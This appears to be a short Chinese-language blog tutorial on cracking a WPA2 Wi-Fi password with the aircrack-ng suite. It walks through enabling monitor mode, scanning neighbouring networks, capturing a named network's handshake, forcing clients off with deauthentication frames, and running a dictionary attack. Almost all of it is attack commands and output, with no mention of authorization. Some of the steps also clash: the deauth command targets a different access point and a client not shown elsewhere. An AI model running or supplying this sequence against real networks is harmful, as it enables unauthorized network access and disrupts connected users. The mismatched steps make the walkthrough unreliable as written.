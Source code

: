 +++
title = 'Aircrack Ng'
date = '2024-07-07'
author = 'aiclr'
categories = ['tools']
tags = ['linux','aircrack-ng','wifi']
Summary='wifi 爆破'
+++

## wifi爆破

`iwconfig`查看网卡

```text
iwconfig

wlp9s0    IEEE 802.11  ESSID:off/any  
          Mode:Managed  Access Point: Not-Associated   Tx-Power=-2147483648 dBm   
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:on
```

将无线网卡设置为监听模式,并查看确认
```text
airmon-ng start wlp9s0

iwconfig

wlp9s0mon  IEEE 802.11  Mode:Monitor  Frequency:2.457 GHz  Tx-Power=-2147483648 dBm   
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:on
```

扫描附近wifi

```text
airodump-ng wlp9s0mon

 CH 12 ][ Elapsed: 0 s ][ 2021-03-28 02:12 

 BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 B4:29:3D:19:8A:A1   -6        4        0    0  11   65   WPA2 CCMP   PSK  i6310                                                            
 B4:0F:3B:5A:60:09  -49        5        0    0   5  130   WPA2 CCMP   PSK  Tenda_5A6008
```

查看指定wifi的连接设备 **keep it alive**

```sh
airodump-ng -c 5 --bssid B4:0F:3B:5A:60:09 -w temp/Tenda_5A6008 wlp9s0mon
```

未获取到握手包
```text
 CH  5 ][ Elapsed: 2 mins ][ 2021-03-28 02:16 

 BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 B4:0F:3B:5A:60:09  -50 100     1389       27    0   5  130   WPA2 CCMP   PSK  Tenda_5A6008                                                 

 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

 B4:0F:3B:5A:60:09  CE:95:40:7E:DA:92  -44    0e- 1      0       20                                                                          
 B4:0F:3B:5A:60:09  4A:26:6E:B7:EE:FE  -48    0e- 1      0       43
```

获取到握手包

```text
CH  5 ][ Elapsed: 30 s ][ 2021-03-28 02:18 ][ WPA handshake: B4:0F:3B:5A:60:09 

 BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 B4:0F:3B:5A:60:09  -49 100      321      400    7   5  130   WPA2 CCMP   PSK  Tenda_5A6008                                                 

 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

 B4:0F:3B:5A:60:09  CE:95:40:7E:DA:92    0    0e- 1      0      623                                                                          
 B4:0F:3B:5A:60:09  4A:26:6E:B7:EE:FE  -46    0e- 6      7      219  EAPOL 
```

获取到握手包后打开新的shell，**keep it alive**

```sh
sudo aireplay-ng -0 2 -c C8:C2:FA:4C:15:51 -a B4:29:3D:19:8A:A1 wlp9s0mon
```

利用字典暴破wifi
```sh
aircrack-ng -w 字典.txt Tenda_5A6008-02.cap
```
